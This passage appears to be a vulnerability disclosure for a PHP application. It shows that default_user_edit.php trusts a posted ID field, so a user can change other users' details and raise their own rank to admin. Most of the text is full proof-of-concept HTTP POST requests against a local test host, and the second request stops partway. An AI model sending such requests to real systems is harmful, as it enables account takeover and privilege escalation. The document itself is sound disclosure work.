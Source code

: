 ```

In default_user_edit.php

![14.png](./img/14.png)

Line 23 If the queried user uid does not match the current id or is not an admin, the operation is quit, and the user is prohibited from viewing other user details.

![15.png](./img/15.png)

However, when the user's data update is performed on line 58, the user uid of the data to be updated is directly obtained from ```$_POST['ID']```, so that the information of others can be modified.

POST requests the following data:
```
POST /default_user_edit.php?UID=2 HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 179
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=19

tk_display_name=changed_by_todaro&tk_user_contact=18010101010&tk_user_email=12%40qq.com&tk_user_remark=aaaaaaaaaaaaaaaaaa&tk_user_rank=3&submit=%E4%BF%9D%E5%AD%98&MM_update=form1&ID=1
```

![16.png](./img/16.png)

You can modify the information of the admin user.

At the same time, you can upgrade the current user to the admin by modifying tk_user_rank to 5 when you modify your own information!

```
POST /default_user_edit.php?UID=2 HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 183
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=19
